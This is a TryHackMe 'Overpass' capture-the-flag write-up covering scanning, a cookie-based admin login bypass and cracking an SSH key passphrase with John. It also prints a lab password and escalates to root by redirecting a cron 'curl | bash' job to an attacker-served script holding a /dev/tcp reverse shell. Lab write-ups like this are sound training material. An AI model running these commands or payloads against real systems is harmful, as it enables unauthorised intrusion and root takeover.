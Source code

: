 ```yaml
---
title: Overpass-writeup-THM
date: 2024-01-03 10:00:00
categories: [room, easy]
tags: [linux, privesc, crontab]     # TAG names should always be lowercase
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/overpass">Overpass</a>"

The first thing that I am going to do is a nmap scna:

```bash
nmap 10.10.192.193      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-01 09:30 EST
Nmap scan report for 10.10.192.193
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds
```

From there we can see that the host is running ssh and a web page, let’s see what;s in the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/Overpass-writeup-THM/main/f08d4045-89e3-45d5-9ed3-0f650f39cb59_Export-a6534518-0a1b-40b8-b980-4ff782785aa3/Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled.png)

Looking at the source code I have found this:

```bash
Overpass allows you to securely store different
                passwords for every service, protected using military grade
                <!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->
                cryptography to keep you safe.
```

The commented part can be a hint that the password are stored using ROT13.

After that I ran a directory discovery scan:

```bash
ffuf -u http://10.10.192.193/FUZZ -w /usr/share/wordlists/dirb/big.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.192.193/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3, Duration: 57ms]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 71ms]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 338 req/sec :: Duration: [0:00:36] :: Errors: 0 ::
```

Going into the admin page I got meeted with a login form.

This login form loads a script:

```bash
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

This script bascially allows you to create a token named SessionToken, and make a value different from “Incorrect credentials” and gives you access in the admin page

![Untitled](https://raw.githubusercontent.com/Blueaulo/Overpass-writeup-THM/main/f08d4045-89e3-45d5-9ed3-0f650f39cb59_Export-a6534518-0a1b-40b8-b980-4ff782785aa3/Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled%201.png)

We found out a ssh key, now I am going to try and access james account with it:

```bash
chmod 400 id_rsa                 
                                                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa james@10.10.192.193
Enter passphrase for key 'id_rsa':
```

Seems like it wants a passphrase.

We can retrieve that with John:

```bash
ssh2john id_rsa > id.txt
                                                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt id.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>          (id_rsa)     
1g 0:00:00:00 DONE (2024-01-01 09:58) 100.0g/s 1337Kp/s 1337Kc/s 1337KC/s pimentel..handball
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And it worked:

```bash
ssh -i id_rsa james@10.10.192.193                                                          

Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan  1 15:00:25 UTC 2024

  System load:  0.12               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.192.193
  Swap usage:   0%

47 packages can be updated.
0 updates are security updates.

Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ whoami
james
```

Once there I found this, in the .overpass file:

```bash
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

Which is James’s password

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Looks like there is a crontab running which uses curl totake the buildscript.sh and run that.

From there I just edited the /etc/hosts file and I addes my IP, so now when it will try to retrieve the script, it will retrive it from me.

So I made this script inside a /downloads/src/ folder:

```bash
cat buildscript.sh 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.18.20.116/5555 0>&1
```

So when I started the server it took my script and I got a reverse shell:

```bash
nc -lvnp 5555

listening on [any] 5555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.192.193] 39270
bash: cannot set terminal process group (2104): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
```